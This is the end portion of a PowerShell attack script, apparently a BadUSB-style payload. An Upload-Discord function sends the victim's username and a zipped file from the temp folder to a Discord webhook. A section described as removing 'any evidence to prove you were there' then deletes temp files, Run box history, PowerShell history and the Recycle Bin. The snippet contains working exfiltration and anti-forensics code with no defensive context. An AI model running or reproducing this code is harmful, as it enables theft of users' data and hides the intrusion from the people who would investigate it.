 if (-not ([string]::IsNullOrEmpty($db))){dropbox}

############################################################################################################################################################

function Upload-Discord {

[CmdletBinding()]
param (
    [parameter(Position=0,Mandatory=$False)]
    [string]$file,
    [parameter(Position=1,Mandatory=$False)]
    [string]$text 
)

$hookurl = "$dc"

$Body = @{
  'username' = $env:username
  'content' = $text
}

if (-not ([string]::IsNullOrEmpty($text))){
Invoke-RestMethod -ContentType 'Application/Json' -Uri $hookurl  -Method Post -Body ($Body | ConvertTo-Json)};

if (-not ([string]::IsNullOrEmpty($file))){curl.exe -F "file1=@$file" $hookurl}
}

if (-not ([string]::IsNullOrEmpty($dc))){Upload-Discord -file "$env:tmp/$ZIP"}

 

############################################################################################################################################################

<#
.NOTES 
	This is to clean up behind you and remove any evidence to prove you were there
#>

# Delete contents of Temp folder 

rm $env:TEMP\* -r -Force -ErrorAction SilentlyContinue

# Delete run box history

reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU /va /f

# Delete powershell history

Remove-Item (Get-PSreadlineOption).HistorySavePath

# Deletes contents of recycle bin

Clear-RecycleBin -Force -ErrorAction SilentlyContinue
